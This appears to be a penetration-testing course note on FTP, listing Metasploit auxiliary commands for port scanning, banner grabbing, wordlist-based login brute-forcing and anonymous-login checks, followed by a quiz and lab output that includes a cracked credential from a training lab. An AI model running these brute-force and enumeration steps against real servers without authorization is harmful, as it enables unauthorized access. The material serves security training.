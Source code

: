 - File Transfer Protocol 
- Over port 21
- Shares files between a web server and client]
- Basic Authentication or Anonymously

## Commands

Port scan with metasploit
```
search portscan
/auxiliary/portscan/tcp
options 
set RHOSTS <target_ip_address>
exploit
```

Check version of ftp (grab the ftp banner)
```
search type:auxiliary name:ftp
/auxiliary/scanner/ftp/ftp_version
options
set RHOSTS <target_ip_address>
exploit
```

Enumerate ftp login
```
search type:auxiliary name:ftp
/auxiliary/scanner/ftp/ftp_login
set RHOSTS <target_ip_address>
options
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common-usernames.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
exploit
```

Check anonymous login to FTP
```
search type:auxiliary name:ftp
/auxiliary/scanner/ftp/anonymous
options 
set RHOSTS <target_ip_address>
exploit
```

Login to ftp server
```
ftp  <target_ip_address> 
```

## Quiz
What is the default FTP port?

	21 

## Lab

```
192.240.171.3
FTP Banner: '220 ProFTPD 1.3.5a Server (AttackDefense-FTP) 
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
sysadmin:654321
```



192.196.97.3
```
auxiliary(scanner/ftp/ftp_version)

[+] 192.196.97.3:21       - FTP Banner: '220 ProFTPD 1.3.5a Server (AttackDefense-FTP) [::ffff:192.196.97.3]\x0d\x0a'
```
